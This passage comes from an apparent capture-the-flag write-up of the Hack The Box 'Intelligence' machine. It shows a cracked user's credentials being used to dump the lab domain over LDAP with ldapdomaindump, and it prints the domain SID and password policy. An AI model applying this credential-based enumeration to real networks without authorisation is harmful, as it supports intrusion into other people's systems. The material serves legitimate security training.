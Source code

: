 ## Service Accounts

That took just a few seconds to crack. However I got a little stuck as those credentials didn't work where I thought they would. With no way forward on SMB I went back to the PDFs downloaded and searched for Ted:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# grep -rl "Ted" *.txt | cat $file
2020-12-30-upload.txt

┌──(root💀kali)-[~/htb/intelligence]
└─# cat 2020-12-30-upload.txt
Internal IT Update
There has recently been some outages on our web servers. Ted has gotten a
script in place to help notify us if this happens again.
Also, after discussion following our recent security audit we are in the process
of locking down our service accounts.
```

## LDAP Dump

Interesting that this file mentioned a security audit and they are in the process of locking down service accounts. A little searching found [this](https://book.hacktricks.xyz/pentesting/pentesting-ldap) from hacktricks. I have valid credentials for Ted so looked at [ldapsearch](https://github.com/dirkjanm/ldapdomaindump), which is another tool from Dirk Janm:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# ldapdomaindump 10.10.10.248 -u 'intelligence\Ted.Graves' -p '<HIDDEN>'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

┌──(root💀kali)-[~/htb/intelligence]
└─# ldd2pretty --directory .

    +--------------------------------------+
    | Getting Domain Sid For               |
    +--------------------------------------+
    
[+] Domain Name: intelligence
Domain Sid: S-1-5-21-4210132550-3389855604-3437519686

    +-----------------------------------------+
    | Password Policy Information             |
    +-----------------------------------------+
    
[+] Password Info for Domain: INTELLIGENCE
        [+] Minimum password length:  5
        [+] Password history length: 0
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Maximum password age: 999999999 days, 23:59:59.999999
        [+] Minimum password age: 0:00:00
```
